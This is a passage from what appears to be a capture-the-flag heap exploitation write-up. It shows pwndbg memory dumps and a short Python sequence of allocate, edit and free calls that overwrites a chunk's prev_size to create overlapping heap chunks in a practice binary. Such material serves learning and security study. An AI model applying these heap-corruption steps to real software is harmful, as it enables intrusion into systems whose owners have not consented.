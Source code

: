 09:0048│   0x602108 (itemlist+72) —▸ 0x191c2c0 ◂— 0x6161616161616161 ('aaaaaaaa')
0a:0050│   0x602110 (itemlist+80) ◂— 0x68 /* 'h' */
0b:0058│   0x602118 (itemlist+88) —▸ 0x191c3c0 ◂— 0x6262626262626262 ('bbbbbbbb')
0c:0060│   0x602120 (itemlist+96) ◂— 0xf0
0d:0068│   0x602128 (itemlist+104) —▸ 0x191c430 ◂— 0x6363636363636363 ('cccccccc')
0e:0070│   0x602130 (itemlist+112) ◂— 0x10
0f:0078│   0x602138 (itemlist+120) —▸ 0x191c530 ◂— 'dddddddddddddddd'
10:0080│   0x602140 (itemlist+128) ◂— 0x0
... ↓
```
then similar to above, but this time also del the 2nd chunk before then the fd make sense
```python
add(0xf0, 'a' * 0xf0)
add(0x68, 'b' * 0x68)
add(0xf0, 'c' * 0xf0)
add(0x10, 'd' * 0x10)

delete(4)
edit(5, 0x68, flat('1' * 0x60, 0x170))
delete(6)
delete(5)
pause()
add(0x120, flat(cyclic(n = 8, length = 0x120)))
```
```gdb -q -p `pidof pwn` -ex "b *0x400AB8" -ex "c"```
0x183f3c0 is the position we need
```
 ► 0x400ab8 <add_item+257>    call   read@plt <read@plt>
        fd: 0x0
        buf: 0x183f2c0 —▸ 0x7f8ff4af8dd8 (main_arena+696) —▸ 0x7f8ff4af8dc8 (main_arena+680) —▸ 0x7f8ff4af8db8 (main_arena+664) —▸ 0x7f8ff4af8da8 (main_arena+648) ◂— ...
        nbytes: 0x120
pwndbg> x/90gx 0x183f2c0-0x10
0x183f2b0:	0x0000000000000000	0x0000000000000131
0x183f2c0:	0x00007f8ff4af8dd8	0x00007f8ff4af8dd8
0x183f2d0:	0x6161616161616161	0x6161616161616161
0x183f2e0:	0x6161616161616161	0x6161616161616161
0x183f2f0:	0x6161616161616161	0x6161616161616161
0x183f300:	0x6161616161616161	0x6161616161616161
0x183f310:	0x6161616161616161	0x6161616161616161
0x183f320:	0x6161616161616161	0x6161616161616161
0x183f330:	0x6161616161616161	0x6161616161616161
0x183f340:	0x6161616161616161	0x6161616161616161
0x183f350:	0x6161616161616161	0x6161616161616161
0x183f360:	0x6161616161616161	0x6161616161616161
0x183f370:	0x6161616161616161	0x6161616161616161
0x183f380:	0x6161616161616161	0x6161616161616161
0x183f390:	0x6161616161616161	0x6161616161616161
0x183f3a0:	0x6161616161616161	0x6161616161616161
0x183f3b0:	0x0000000000000100	0x0000000000000070
0x183f3c0:	0x0000000000000000	0x3131313131313131
0x183f3d0:	0x3131313131313131	0x3131313131313131
0x183f3e0:	0x3131313131313131	0x0000000000000141
0x183f3f0:	0x00007f8ff4af8b78	0x00007f8ff4af8b78
0x183f400:	0x3131313131313131	0x3131313131313131
0x183f410:	0x3131313131313131	0x3131313131313131
0x183f420:	0x0000000000000170	0x0000000000000100
0x183f430:	0x6363636363636363	0x6363636363636363
0x183f440:	0x6363636363636363	0x6363636363636363
0x183f450:	0x6363636363636363	0x6363636363636363
0x183f460:	0x6363636363636363	0x6363636363636363
0x183f470:	0x6363636363636363	0x6363636363636363
0x183f480:	0x6363636363636363	0x6363636363636363
0x183f490:	0x6363636363636363	0x6363636363636363
0x183f4a0:	0x6363636363636363	0x6363636363636363